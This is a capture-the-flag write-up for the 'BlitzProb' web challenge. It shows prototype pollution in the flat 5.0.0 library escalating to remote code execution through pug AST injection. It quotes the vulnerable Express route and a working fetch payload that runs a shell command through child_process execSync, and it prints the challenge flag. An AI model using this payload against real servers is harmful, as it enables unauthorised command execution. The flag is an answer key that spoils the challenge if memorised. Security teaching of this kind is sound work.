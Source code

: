 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a Prototype Pollution to RCE via AST Injection. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/blitzProb_web.png#center)

## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the function "unflatten" is called after receiving a post request and on a successful `if` the "pug.compile" function. The vulnerable code of the challenge:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. To exploit this, we first need to trigger the “unflatten” function with our payload and then the “pug.compile” function so that the server runs our payload.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the static directory of the web server. After visiting `static/js/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶